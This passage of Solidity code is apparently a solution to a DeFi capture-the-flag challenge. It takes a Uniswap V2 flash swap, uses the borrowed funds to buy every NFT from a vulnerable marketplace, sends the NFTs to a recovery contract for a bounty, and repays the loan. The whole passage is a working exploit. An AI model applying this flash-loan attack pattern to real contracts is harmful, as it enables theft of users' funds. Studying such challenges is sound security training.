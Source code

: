 ```solidity
        bytes memory callData = hex"00";
        uniswapPair.swap(
            15 ether, // amount0Out, which is WETH
            0, // amount1Out
            address(this), // to
            callData // data
        );

    }

    function uniswapV2Call(address sender, uint amount0, uint amount1, bytes calldata data) external {
        address token0 = IUniswapV2Pair(msg.sender).token0(); // fetch the address of token0
        address token1 = IUniswapV2Pair(msg.sender).token1(); // fetch the address of token1
        assert(msg.sender == IUniswapV2Factory(uniswapV2Factory).getPair(token0, token1)); // ensure that msg.sender is a V2 pair

        // Buy all NFTs from the marketplace with only 15 ETH
        uint256[] memory ids = new uint256[](AMOUNT_OF_NFTS);
        for (uint256 i = 0; i < AMOUNT_OF_NFTS; i++) {
            ids[i] = i;
        }

        uint256 amount = amount0 == 0 ? amount1 : amount0; // determine the amount of token to repay
        weth.withdraw(amount); // withdraw WETH to ETH
        marketplace.buyMany{value: amount}(ids);

        // Approve recoveryManager to transfer all NFTs
        nft.setApprovalForAll(address(recoveryManager), true);

        // Transfer the NFTs to the recovery manager & get the bounty
        bytes memory player_address = abi.encode(player);
        for (uint256 i = 0; i < AMOUNT_OF_NFTS; i++) {
            nft.safeTransferFrom(address(this), address(recoveryManager), i, player_address);
        }
        
        // repay the flash loan
        uint256 amount_repay = amount * 1000 / 997 + 1; // calculate the amount to repay with a 0.3% fee
        weth.deposit{value: amount_repay}();
        weth.transfer(msg.sender, amount_repay);

    }

    function onERC721Received(
        address,
        address,
        uint256,
        bytes calldata
    ) external view returns (bytes4) {
        require(msg.sender == address(nft), "Invalid NFT received");
        return IERC721Receiver.onERC721Received.selector;
    }   

    receive() external payable {
    
    }
}
```

